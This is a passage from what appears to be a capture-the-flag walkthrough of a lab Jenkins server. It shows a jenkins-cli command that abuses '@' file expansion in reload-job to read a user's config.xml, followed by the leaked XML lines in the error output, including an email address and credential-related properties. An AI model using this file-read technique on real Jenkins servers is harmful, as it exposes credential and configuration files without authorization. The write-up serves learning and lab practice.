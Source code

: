     ERROR: Error occurred while performing this command, see previous stderr output.



Still, I can see a user "jennifer_12108429903186576833", which matches
the jennifer user on the site [above](#site). That is a directory name
and in it will be a `config.xml`:


    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
        <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such item ‘    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">’ exists.
        <hudson.search.UserSearchProperty>: No such item ‘    <hudson.search.UserSearchProperty>’ exists.
          <roles>: No such item ‘      <roles>’ exists.
        <jenkins.security.seed.UserSeedProperty>: No such item ‘    <jenkins.security.seed.UserSeedProperty>’ exists.
          </tokenStore>: No such item ‘      </tokenStore>’ exists.
        </hudson.search.UserSearchProperty>: No such item ‘    </hudson.search.UserSearchProperty>’ exists.
          <timeZoneName></timeZoneName>: No such item ‘      <timeZoneName></timeZoneName>’ exists.
      <properties>: No such item ‘  <properties>’ exists.
        <jenkins.security.LastGrantedAuthoritiesProperty>: No such item ‘    <jenkins.security.LastGrantedAuthoritiesProperty>’ exists.
          <flags/>: No such item ‘      <flags/>’ exists.
        <hudson.model.MyViewsProperty>: No such item ‘    <hudson.model.MyViewsProperty>’ exists.
    </user>: No such item ‘</user>’ exists.
        </jenkins.security.ApiTokenProperty>: No such item ‘    </jenkins.security.ApiTokenProperty>’ exists.
          <views>: No such item ‘      <views>’ exists.
            <string>authenticated</string>: No such item ‘        <string>authenticated</string>’ exists.
        <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">: No such item ‘    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">’ exists.
    <user>: No such item ‘<user>’ exists.
              <name>all</name>: No such item ‘          <name>all</name>’ exists.
      <description></description>: No such item ‘  <description></description>’ exists.
          <emailAddress>jennifer@builder.htb</emailAddress>: No such item ‘      <emailAddress>jennifer@builder.htb</emailAddress>’ exists.
          <collapsed/>: No such item ‘      <collapsed/>’ exists.
        </jenkins.security.seed.UserSeedProperty>: No such item ‘    </jenkins.security.seed.UserSeedProperty>’ exists.
        </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>: No such item ‘    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>’ exists.
        </hudson.model.MyViewsProperty>: No such item ‘    </hudson.model.MyViewsProperty>’ exists.
          <domainCredentialsMap/>: No such item ‘      <domainCredentialsMap/>’ exists.
              <filterQueue>false</filterQueue>: No such item ‘          <filterQueue>false</filterQueue>’ exists.
        <jenkins.security.ApiTokenProperty>: No such item ‘    <jenkins.security.ApiTokenProperty>’ exists.
          <primaryViewName></primaryViewName>: No such item ‘      <primaryViewName></primaryViewName>’ exists.
          </views>: No such item ‘      </views>’ exists.
        </hudson.model.TimeZoneProperty>: No such item ‘    </hudson.model.TimeZoneProperty>’ exists.
        <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1319.v7eb_51b_3a_c97b_">: No such item ‘    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1319.v7eb_51b_3a_c97b_">’ exists.
        </hudson.model.PaneStatusProperties>: No such item ‘    </hudson.model.PaneStatusProperties>’ exists.
        </hudson.tasks.Mailer_-UserProperty>: No such item ‘    </hudson.tasks.Mailer_-UserProperty>’ exists.
            <tokenList/>: No such item ‘        <tokenList/>’ exists.
        <jenkins.console.ConsoleUrlProviderUserProperty/>: No such item ‘    <jenkins.console.ConsoleUrlProviderUserProperty/>’ exists.
            </hudson.model.AllView>: No such item ‘        </hudson.model.AllView>’ exists.
          <timestamp>1707318554385</timestamp>: No such item ‘      <timestamp>1707318554385</timestamp>’ exists.
              <owner reference="../../.."/>: No such item ‘          <owner reference="../../.."/>’ exists.
      </properties>: No such item ‘  </properties>’ exists.